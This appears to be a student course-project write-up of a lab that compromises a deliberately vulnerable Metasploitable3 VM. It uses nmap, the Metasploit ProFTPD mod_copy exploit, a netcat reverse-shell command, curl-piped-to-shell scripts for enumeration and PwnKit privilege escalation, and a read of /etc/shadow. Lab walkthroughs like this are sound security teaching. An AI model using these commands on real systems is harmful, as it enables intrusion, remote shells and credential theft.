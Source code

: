 # 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- ![1-virtualbox_attacker_machine.png](./screenshots/1-virtualbox_attacker_machine.png)
- ![2-import_appliance_option.png](./screenshots/2-import_appliance_option.png)
- ![3-select_metasploitable3_ova.png](./screenshots/3-select_metasploitable3_ova.png)
- ![4-import_appliance_settings.png](./screenshots/4-import_appliance_settings.png)
- ![5-import_progress.png](./screenshots/5-import_progress.png)

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- ![6-metasploitable3_login_success.png](./screenshots/6-metasploitable3_login_success.png)

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`

**Screenshots:**
- ![7-ifconfig_command.png](./screenshots/7-ifconfig_command.png)
- ![8-victim_ip_found.png](./screenshots/8-victim_ip_found.png)

---

### 1.4 Confirm Network Connectivity

- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- ![9-kali_ping_success.png](./screenshots/9-kali_ping_success.png)

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- ![10-nmap_scan_results.png](./screenshots/10-nmap_scan_results.png)

---

## 2.2 Launch Metasploit Console

```bash
sudo msfconsole
```

**Screenshot:**
- ![11-start_msfconsole.png](./screenshots/11-start_msfconsole.png)

---

## 2.3 Search and Use Exploit

```bash
search mod_copy
use 0
```

**Screenshot:**
- ![12-search_and_use_modcopy_exploit.png](./screenshots/12-search_and_use_modcopy_exploit.png)

---

## 2.4 Configure Exploit Options

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- ![13-configure_rhosts_sitepath.png](./screenshots/13-configure_rhosts_sitepath.png)

---

## 2.5 Configure Payload and Reverse Shell Command

```bash
set payload 5
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- ![14-set_payload_and_reverse_shell_command.png](./screenshots/14-set_payload_and_reverse_shell_command.png)

---

## 2.6 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- ![15-start_nc_listener.png](./screenshots/15-start_nc_listener.png)

---

## 2.7 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- ![16-run_exploit.png](./screenshots/16-run_exploit.png)

---

## 2.8 Confirm Reverse Shell Access

```bash
whoami
ls
```

**Screenshot:**
- ![17-confirm_shell_access.png](./screenshots/17-confirm_shell_access.png)

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- ![18-run_lightpeas_script.png](./screenshots/18-run_lightpeas_script.png)

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
- ![19-run_escalate_script.png](./screenshots/19-run_escalate_script.png)

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- ![20-confirm_root_access.png](./screenshots/20-confirm_root_access.png)

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---

